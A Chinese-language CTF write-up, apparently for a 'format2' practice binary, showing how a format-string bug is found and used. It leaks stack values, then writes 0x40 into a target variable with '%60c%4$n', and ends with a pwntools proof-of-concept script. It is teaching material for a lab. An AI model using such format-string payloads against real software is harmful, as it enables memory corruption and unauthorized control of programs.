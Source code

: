 简单分析一下，通过 `fgets` 函数将 `stdin` 的输入值写到 `s` 处，由于 `fgets` 限制了读取长度，所以这里并没有栈溢出。下面和 `format 1` 同样的流程，只不过这里要将 `target` 更改为具体的数值 `0x40`。

首先，同样的操作。

```sh
python -c "print b'a'*6 + b'%08x.'*100" | ./format2
```

由于执行 `printf` 时候的栈地址，和 `s` 比较接近，所以我们很快就定位了。

```sh
python -c "print b'\xE4\x96\x04\x08' + b'%4$x'" | ./format2
```

我们先尝试一下直接将参数 `x` 换位 `n` ，

```sh
python -c "print b'\xE4\x96\x04\x08' + b'%4$n'" | ./format2
```

这个时候我们得到了 `target` 回显：

```sh
target is 4 :(
```

我们成功将 `target` 改为了 `4` ，由于之前介绍过了，这里我们直接用 `c` 参数进行一个数据填充。

```sh
python -c "print b'\xE4\x96\x04\x08' + b'%60c' + b'%4$n'" | ./format2
```

到这里，又一次成功的拿到了 `flag`



本来是不打算用 `pwntools`， 但是需要交互，还是这个写着快一点。

`poc` :

```python
# /usr/env/bin python
# -*- coding: utf-8 -*-

from pwn import *


def main():
    target = p32(0x080496E4)
    payload = target + b'%60c' + b'%4$n'
    exp_file = process('./format2')
    exp_file.sendline(payload)
    exp_file.interactive()


if __name__ == '__main__':
    main()
```


